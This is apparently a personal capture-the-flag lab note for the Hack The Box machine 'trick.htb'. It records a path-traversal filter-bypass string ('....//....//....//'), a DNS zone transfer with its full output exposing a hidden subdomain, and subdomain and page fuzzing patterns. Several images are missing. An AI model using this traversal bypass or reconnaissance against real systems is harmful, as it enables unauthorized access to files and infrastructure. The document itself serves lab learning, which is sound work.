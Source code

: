 ```

....//....//....// 
This website probably has some sort of filtering to block ../../../ but ....//....//....// works!


```











========================================================







![[Pasted image 20221024090825.png]]

![[Pasted image 20221024090853.png]]



![[Pasted image 20221024093742.png]]


Reason why I need to get annual subscription

```
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 23 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Tue Oct 25 11:49:26 EDT 2022
;; XFR size: 6 records (messages 1, bytes 231)


```
trick.htb --> dig --> preprod-payroll.trick.htb -->

preprod-payroll.trick.htb 

FUZZ-payroll.trick.htb
preprod-FUZZ.trick.htb
preprod-FUZZ.trick.htb/FUZZ.php
